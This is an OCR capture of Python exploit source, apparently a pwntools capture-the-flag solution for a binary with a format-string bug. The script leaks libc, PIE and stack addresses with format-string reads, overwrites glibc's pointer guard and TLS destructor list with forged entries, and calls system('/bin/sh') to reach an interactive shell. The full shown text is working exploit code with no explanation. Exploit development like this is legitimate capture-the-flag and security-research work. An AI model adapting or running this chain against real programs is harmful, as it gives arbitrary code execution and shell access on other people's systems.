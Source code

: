 ```python
    tls_dtor_list = tls_address - 0x50
    info(f"tls_dtor_list: {hex(tls_dtor_list)}")

    add_rsp_158_ret = libc.address + 0xDB0B1
    input()
    write_two(func_0, add_rsp_158_ret, ptr_guard_addr, 0)

    pie_start = fmt_leak_hex("%17$p")
    exe.address = pie_start - exe.sym._start

    info(f"exe: {hex(exe.address)}")
    fake_dtor = libc.bss(-0x18)
    info(f"fake_dtor: {hex(fake_dtor)}")
    write_two(fake_dtor, exe.sym.main, tls_dtor_list, fake_dtor)

    stack_leak = fmt_leak_hex("%6$p")

    pie_argv = stack_leak + 0x158

    fake_dtor1 = pie_argv
    fake_dtor1_obj = pie_argv + 8
    binsh = next(libc.search(b"/bin/sh\x00"))

    write_two(fake_dtor1, libc.sym.system, fake_dtor1_obj, binsh)

    p.interactive()


if __name__ == "__main__":
    exploit()
```